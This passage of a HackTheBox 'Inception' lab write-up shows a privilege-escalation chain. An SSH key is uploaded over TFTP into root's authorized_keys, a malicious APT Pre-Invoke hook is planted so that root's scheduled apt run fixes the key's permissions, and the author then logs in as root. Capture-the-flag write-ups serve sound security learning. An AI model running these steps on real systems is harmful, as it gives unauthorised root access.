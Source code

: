 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2002:59:27.png)

Copy the key to the server

```sh
tftp 192.168.0.1
put id_rsa.pub /root/.ssh/authorized_keys
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2003:01:44.png)

We create the command file

```sh
echo "APT::Update::Pre-Invoke {\"chmod 600 /root/.ssh/authorized_keys\"};" > /etc/apt/apt.conf.d/00command
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2003:07:10.png)

And send to the server

```sh
tftp 192.168.0.1
put /etc/apt/apt.conf.d/00command /etc/apt/apt.conf.d/00command
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2003:03:55.png)

We wait 5 minutes and ssh in

```sh
ssh root@192.168.0.1
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2003:14:04.png)